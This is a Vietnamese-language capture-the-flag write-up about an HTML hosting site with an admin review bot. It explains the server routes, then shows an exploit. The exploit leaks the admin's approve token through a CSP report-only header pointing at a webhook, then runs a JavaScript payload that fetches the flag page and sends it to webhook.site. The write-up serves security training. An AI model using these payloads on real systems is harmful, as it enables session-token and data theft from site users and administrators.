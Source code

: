 ![image](https://github.com/user-attachments/assets/4bf136c2-5f5f-44e8-9f23-c436d253da02)# Tổng quan

![image](https://github.com/user-attachments/assets/fffa382e-540b-46be-be6a-879849fa0c71)

Trang web gồm có 2 phần là paste html và phần headers, phần html là chạy html, headers là khi nhấn "Park my HTML for free", 
nội dung trong ô headers này được gửi đến máy chủ thông qua yêu cầu POST tới /upload, 
máy chủ nhận chuỗi văn bản này và lưu nó vào cột headers trong cơ sở dữ liệu (sqlite.db) tương ứng với trang web

![image](https://github.com/user-attachments/assets/bbdc1566-e2f9-4c6d-b4a3-e3732a9d4b4a)

Tôi thử điền vào html là  `<script>alert(1)</script>` và khi truy cập vào thì không có gì xảy ra

![image](https://github.com/user-attachments/assets/384d09f6-d1d7-437b-8223-5941b887f926)

Vấn đề là server đã sử dụng CSP(Content Security Policy) để chặn xss

![image](https://github.com/user-attachments/assets/cedbf5e5-4f86-44c9-bbba-8d41e6ff1321)

Trong src code thì có một hằng số ADMIN_TOKEN được tạo ra với một chuỗi ngẫu nhiên dài 
Đây là một mã bí mật chỉ admin biết, dùng để đăng nhập vào tài khoản admin

Một hosting_template được định nghĩa. Đây là mẫu HTML chung sẽ bao bọc mã HTML của người dùng khi trang của họ được phục vụ 
Nó chứa các placeholder như {{site.html}}, {{site.id}}, {{site.approveToken}}, và {{CSP}} sẽ được thay thế bằng dữ liệu thực tế

Sử dụng middleware express.urlencoded để đọc dữ liệu từ các biểu mẫu (form) HTML 
Sử dụng express-session để theo dõi người dùng. Mỗi người dùng mới sẽ được gán một 
userId là một số nguyên lớn, ngẫu nhiên (crypto.randomInt(1, SAFE_INTEGER))




sessionRouter.post('/upload')

Chức năng: Xử lý việc người dùng gửi lên mã HTML và các header tùy chọn

Hoạt động:

Nhận html và headers từ nội dung của yêu cầu POST (từ form)

Lấy userId từ session của người dùng hiện tại để xác định chủ sở hữu

Gọi hàm db.createSite() để lưu thông tin này vào cơ sở dữ liệu. Cơ sở dữ liệu sẽ tạo một id và approveToken ngẫu nhiên cho trang web mới

Chuyển hướng người dùng đến trang /site/:id của trang web họ vừa tạo là sessionRouter.get('/site/:id')

![image](https://github.com/user-attachments/assets/97aea477-1b7d-4469-a48d-fb58109153d0)

Tiếp theo là sessionRouter.get('/site/:id')

Chức năng: Hiển thị một trang web đã được tạo. Đây là endpoint phức tạp nhất

Hoạt động:

Lấy id trang web từ URL

Truy vấn cơ sở dữ liệu để lấy thông tin của trang (db.getSiteById)

Kiểm tra quyền truy cập:

Nếu trang web chưa được phê duyệt (site.approved là false), nó chỉ cho phép chủ sở hữu của trang (site.owner) hoặc admin (req.session.userId === 0) xem. Người dùng khác sẽ nhận được lỗi 403 "This site is not approved yet"

Thiết lập Headers: Nếu trang web có lưu các header tùy chỉnh (site.headers), máy chủ sẽ tách chúng ra và thêm vào phản hồi

Thiết lập Content-Security-Policy (CSP):

Nếu trang web chưa được phê duyệt, một CSP rất nghiêm ngặt (default-src 'none') được thêm vào. Điều này ngăn chặn trang web tải bất kỳ tài nguyên nào (kể cả script, ảnh, stylesheet), vô hiệu hóa JavaScript

Nếu trang web đã được phê duyệt, không có CSP nào được thêm vào, cho phép mã HTML và JavaScript của người dùng chạy tự do

Hiển thị HTML: Máy chủ điền thông tin của trang (html, id, approveToken) vào hosting_template và gửi nó cho trình duyệt 
Lưu ý quan trọng: approveToken chỉ được điền vào template nếu người xem là admin (req.session.userId === 0)

![image](https://github.com/user-attachments/assets/bdfcffee-b7c0-4258-8c92-13f6914dcd9b)

noSessionRouter.get('/admin/login')

Chức năng: "Đăng nhập" cho admin bot.
Hoạt động: Endpoint này kiểm tra xem adminToken trong query có khớp với ADMIN_TOKEN trên máy chủ hay không. Nếu có, nó sẽ thiết lập userId trong session thành 0, cấp cho session đó quyền admin

noSessionRouter.get('/review/:siteId')

Chức năng: Kích hoạt quá trình admin xem xét một trang web

Hoạt động:
Khởi chạy một trình duyệt Puppeteer

Tạo một trang mới trong trình duyệt đó

Bước 1: Đăng nhập Admin. Trình duyệt điều hướng đến http://localhost:1337/admin/login?adminToken=... với token chính xác. Thao tác này sẽ thiết lập cookie session với userId=0

Bước 2: Truy cập trang web. Sau khi đăng nhập, trình duyệt điều hướng đến trang web của người dùng (http://localhost:1337/site/:siteId). Vì session giờ đã có quyền admin, nó có thể xem bất kỳ trang nào, kể cả những trang chưa được phê duyệt
Trình duyệt chờ một chút rồi đóng lại

![image](https://github.com/user-attachments/assets/5abea0e6-96fc-4a22-adc1-88cdcc79b111)

sessionRouter.get("/approve/:siteId/:approveToken")

Chức năng: Phê duyệt một trang web

Hoạt động:

Lấy siteId và approveToken từ URL  

Kiểm tra xem approveToken được cung cấp có khớp với token trong cơ sở dữ liệu của trang đó không 
Nếu khớp, nó gọi db.approveSite(siteId) để cập nhật trạng thái approved thành true 
Link để phê duyệt này được hiển thị cho admin khi họ xem một trang chưa được duyệt

![image](https://github.com/user-attachments/assets/ea03dfd3-9d1a-4f0b-a407-3c16ba8fe6dd)

# Khai thác

![image](https://github.com/user-attachments/assets/659be9a7-4f8d-4966-aecb-c24f47f7c9a6)

Ở phần headers tôi để là:
```
Content-Security-Policy-Report-Only: default-src 'none'; report-uri https://webhook.site/efe533b9-16c5-409f-ab18-4c67bed3ae9b
```
Đối với Content-Security-Policy-Report-Only thì header này không thực thi chính sách. Thay vào đó, nó chỉ báo cáo các vi phạm về report-uri được chỉ định.

default-src 'none': Chính sách này, nếu được thực thi, sẽ chặn tất cả mọi thứ. Vì nó đang ở chế độ "chỉ báo cáo", 
nó sẽ coi mọi yêu cầu tài nguyên (script, ảnh, fetch, v.v.) là một vi phạm

report-uri: Khi một vi phạm được phát hiện, trình duyệt sẽ gửi một báo cáo dưới dạng JSON đến webhook

Mỗi khi truy cập vào trang web thì một báo cáo vi phạm sẽ được gửi đến webhook. Báo cáo này chứa thông tin về tài nguyên đã bị chặn (ví dụ: URL của script hoặc ảnh). 
Kẻ tấn công hy vọng rằng thông tin nhạy cảm (như token hoặc cờ) có thể bị rò rỉ qua các báo cáo này


Ở phần headers có để là:

```
<img src="https://test.com/{{site.approveToken}}">
<script>
(async () => {
  try {
    const html = await (await fetch('/site/flag')).text();
    const flag = html.match(/GPNCTF\{[^}]+}/)?.[0] ?? 'no-flag';
    new Image().src = 'https://webhook.site/efe533b9-16c5-409f-ab18-4c67bed3ae9b/abc?flag=' + encodeURIComponent(flag);
  } catch(e) {}
})();
</script>
```
Thẻ `<img>`

khi admin bot truy cập trang, {{site.approveToken}} sẽ 
được thay thế bằng token thực tế, và trình duyệt của bot sẽ gửi token đó đến máy chủ test.com

fetch('/site/flag'): Nó cố gắng tải nội dung của trang bí mật /site/flag. Vì admin bot đã đăng nhập với userId = 0, 
nó có quyền truy cập trang này ngay cả khi nó chưa được phê duyệt. 
html.match(...): Nó dùng biểu thức chính quy để tìm và trích xuất lá cờ (flag) từ nội dung HTML vừa lấy được.

new Image().src = ...: Nó tạo ra một yêu cầu tải ảnh đến webhook, 
nhưng gắn lá cờ đã trích xuất vào như một tham số trong URL (?flag=...). 
Khi bot thực hiện yêu cầu này, lá cờ sẽ xuất hiện trong nhật ký của webhook.

Khi truy cập vào trang thì có giao diện như này

![image](https://github.com/user-attachments/assets/19681f8b-1a05-4c40-bbe2-42a3171773b3)

Và ở webhook có 2 request được gửi tới, trong đó thì chú ý đến request có blocked-uri, theo lý thuyết thì cái token phải xuất hiện ở đó nhưng nó khoogn xuất hiện do cái này thực thi ở 
trình duyệt của tôi (có lộ địa chỉ ip của tôi) chứ không phải của admin, bỏ qua 2 request này vì nó có ý nghĩa là request đã hoạt động được thôi

![image](https://github.com/user-attachments/assets/7109f710-f3b9-4cbd-8114-5ff604144f2a)

Tiếp theo thì truy cập vào review/siteId để bot review site, sau khi vào thì có 2 request mới gửi đến ở địa chỉ ip khác, và địa chỉ này là của con bot, 
ở request có `"blocked-uri": "https://test.com/6184fb1cea6497239f36d4a732055fb4"` cái mã sau chính là approveToken

![image](https://github.com/user-attachments/assets/1651a489-9923-40b9-a338-12a02aa56365)

Đã lấy được approve token thông qua report, truy cập vào /approve/siteId/approveToken bằng token vừa lấy

![image](https://github.com/user-attachments/assets/ab7f380c-9903-4089-a390-66ae2e2c2e68)

Quay lại /review/siteId vì lúc này trang web đã được approve, nó sẽ thực thi được vì site.approved lúc này là bằng 1

![image](https://github.com/user-attachments/assets/0584f4a7-8121-4c43-838e-af4f1860a749)

Nó sẽ thực thi ở bên admin bot là truy cập `fetch('/site/flag')` để lấy flag

![image](https://github.com/user-attachments/assets/42bea80d-69e8-4bca-b7f2-80ddeb2aaa97)

